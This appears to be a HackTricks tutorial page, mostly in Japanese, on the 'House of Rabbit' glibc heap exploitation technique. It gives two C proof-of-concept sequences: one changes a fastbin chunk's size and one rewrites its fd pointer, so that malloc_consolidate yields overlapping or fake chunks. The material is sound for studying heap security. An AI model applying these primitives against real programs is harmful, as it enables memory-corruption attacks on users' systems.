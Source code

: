 # House of Rabbit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### 要件

1. **ファストビンのfdポインタまたはサイズを変更する能力**: これは、ファストビン内のチャンクの前方ポインタまたはそのサイズを変更できることを意味します。
2. **`malloc_consolidate`をトリガーする能力**: これは、大きなチャンクを割り当てるか、トップチャンクをマージすることで行うことができ、ヒープがチャンクを統合することを強制します。

### 目標

1. **オーバーラップするチャンクを作成する**: 1つのチャンクが別のチャンクとオーバーラップするようにし、さらなるヒープ操作を可能にします。
2. **偽のチャンクを作成する**: ヒープ操作中にアロケータを騙して、偽のチャンクを正当なチャンクとして扱わせることです。

## 攻撃の手順

### POC 1: ファストビンチャンクのサイズを変更する

**目的**: ファストビンチャンクのサイズを操作してオーバーラップするチャンクを作成します。

* **ステップ 1: チャンクを割り当てる**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
We allocate two chunks of 0x40 bytes each. These chunks will be placed in the fast bin list once freed.

* **ステップ 2: チャンクを解放する**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
We free both chunks, adding them to the fastbin list.

* **ステップ 3: チャンクサイズの変更**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
We change the size metadata of `chunk1` to 0xa1. This is a crucial step to trick the allocator during consolidation.

* **ステップ 4: `malloc_consolidate` をトリガーする**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
大きなチャンクを割り当てると、`malloc_consolidate`関数がトリガーされ、小さなチャンクがファストビンでマージされます。操作された`chunk1`のサイズにより、`chunk1`が`chunk2`と重なります。

統合後、`chunk1`は`chunk2`と重なり、さらなる悪用が可能になります。

### POC 2: `fd`ポインタを変更する

**目的**: ファストビンの`fd`ポインタを操作してフェイクチャンクを作成します。

* **ステップ 1: チャンクを割り当てる**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**説明**: 偽のチャンクのためにヒープを設定するために、1つは小さく、もう1つは大きい2つのチャンクを割り当てます。

* **ステップ 2: 偽のチャンクを作成**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
We write fake chunk metadata into `chunk2` to simulate smaller chunks.

* **ステップ 3: `chunk1` を解放する**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**説明**: `chunk1`を解放し、fastbinリストに追加します。

* **ステップ 4: `chunk1`の`fd`を変更する**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**説明**: `chunk1`の前方ポインタ（`fd`）を変更して、`chunk2`内の偽チャンクを指すようにします。

* **ステップ5: `malloc_consolidate`をトリガーする**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
大きなチャンクを再度割り当てると、`malloc_consolidate`がトリガーされ、偽のチャンクが処理されます。

偽のチャンクはファストビンリストの一部となり、さらなる悪用のための正当なチャンクとなります。

### 概要

**House of Rabbit**技術は、ファストビンチャンクのサイズを変更してオーバーラップするチャンクを作成するか、`fd`ポインタを操作して偽のチャンクを作成することを含みます。これにより、攻撃者はヒープ内に正当なチャンクを偽造し、さまざまな形態の悪用を可能にします。これらのステップを理解し、実践することで、ヒープの悪用スキルを向上させることができます。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
